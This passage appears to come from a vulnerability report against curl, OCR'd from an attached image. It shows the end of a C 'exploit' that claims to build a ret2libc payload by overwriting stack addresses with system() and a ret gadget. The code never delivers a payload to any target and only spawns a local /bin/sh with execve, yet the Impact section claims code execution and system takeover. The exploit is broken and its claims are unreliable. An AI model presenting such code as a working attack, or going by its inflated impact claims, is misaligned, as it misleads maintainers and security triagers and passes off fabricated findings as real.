     // Step 4: Overwrite the third address with the address of the system() function in libc.
    *((unsigned long*)(buffer + OFFSET + 16)) = SYSTEM;  // Calling system("/bin/sh")
    printf("[ * ] SYSTEM address: 0x%lx\n", SYSTEM);

    // Step 5: Add a return address to deal with stack alignment issues, use a ret gadget.
    *((unsigned long*)(buffer + OFFSET + 24)) = RET;  // Ensures stack is properly aligned and continues execution
    printf("[ * ] RET address: 0x%lx\n", RET);

    // Step 6: Send the payload to the vulnerable program (in this case, we simulate it using execve()).
    printf("[ * ] Sending payload...\n");

    // Use execve() to directly execute the payload
    char *args[] = { "/bin/sh", NULL };
    execve("/bin/sh", args, NULL);  // This directly executes "/bin/sh" with null-terminated arguments

    // Debugging message for any potential issues with execve()
    perror("execve() failed");
}

// Main function that starts the exploit
int main() {
    printf("[ * ] Launching exploit, waiting for shell..\n");
    exploit();  // Call the exploit function to trigger the overflow and spawn the shell
    return 0;  // Return from main, though execution should not reach here if the shell is spawned successfully
}

## Impact

Code execution, command shell, possible system take over from this compromise...

## Attachments
- curlexploit.jpg
